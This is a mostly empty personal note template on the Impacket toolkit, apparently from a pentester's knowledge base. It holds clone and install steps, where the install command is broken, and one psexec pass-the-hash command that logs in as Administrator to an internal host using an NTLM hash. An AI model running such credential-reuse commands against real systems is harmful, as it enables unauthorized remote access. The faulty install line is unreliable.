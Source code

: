 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Impacket]]  
___

## Description:


## Installation
[Impacket](https://github.com/SecureAuthCorp/impacket)

```
git clone https://github.com/SecureAuthCorp/impacket

cd impacket

python3 -m install .
```



## Commands

PSexec with hash (port 135 or 445 must be open):
`impacket-psexec WEB02-POSEIDO/Administrator@172.16.1.11 -hashes :8ab4098640a136722461728dc38faee2

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:40 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
